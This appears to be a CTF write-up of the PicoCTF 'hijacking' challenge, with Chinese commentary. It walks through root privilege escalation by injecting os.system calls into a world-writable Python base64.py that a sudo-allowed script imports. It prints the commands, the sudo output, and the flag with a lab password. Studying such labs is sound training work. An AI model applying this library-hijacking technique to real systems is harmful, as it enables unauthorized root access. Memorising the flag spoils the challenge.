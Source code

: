 ```yaml
---
title: PicoCTF - hijacking
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - hijacking
## Background
Privilege Escalation

Hint 1: Check for Hidden files
Hint 2: No place like Home:)

---
[Linux sudo命令](https://www.runoob.com/linux/linux-comm-sudo.html)
> -l 顯示出自己（執行 sudo 的使用者）的權限
## Recon
第一次遇到提權的問題，感覺很新鮮也很好玩，不過因為沒啥概念所以主要是參考[^pico_pwn_hijacking_wp_martin]
1. 首先觀察一下各個file或folders，根目錄有個challenge folder，另外家目錄有一個.server.py檔案，裡面的內容不太重要，只需要知道他import哪些library
2. 現在的問題是按照目前的權限，無法讀取challenge相關的資訊，所以我們要提升權限，主要的做法是利用base64.py這個mod全開的檔案進行讀寫，再利用python執行有import base64的.server.py檔案就可以執行shell
3. 為神麼要用base64.py當作主要的突破口就是因為只有他的mod全開
    ```bash
    $ ls -al /usr/lib/python3.8
    ...
    -rwxrwxrwx 1 root root  20382 Nov 14  2022 base64.py
    ...
    -rw-r--r-- 1 root root  38995 Nov 14  2022 os.py
    ...
    -rw-r--r-- 1 root root  35243 Nov 14  2022 socket.py
    ```
## Exploit
```bash
$ ssh picoctf@saturn.picoctf.net -p 58219
$ find / -name "base64.py"
...
/usr/lib/python3.8/base64.py
...
$ vim /usr/lib/python3.8/base64.py
# add these line and save the file
import os
os.system('ls -al /challenge')
$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Mar 16 02:08 .
drwxr-xr-x 1 root root  51 Jul 31 15:23 ..
-rw-r--r-- 1 root root 103 Mar 16 02:08 metadata.json
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
$ vim /usr/lib/python3.8/base64.py
# revise the file
os.system('cat /challegne/metadata.json')
$ sudo /usr/bin/python3 /home/picoctf/.server.py
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}", "username": "picoctf", "password": "HYGhWsmPyf"}sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`
## Reference
[^pico_pwn_hijacking_wp_martin]:[ picoCTF 2023 hijacking ](https://youtu.be/BIzu0AtOq5w)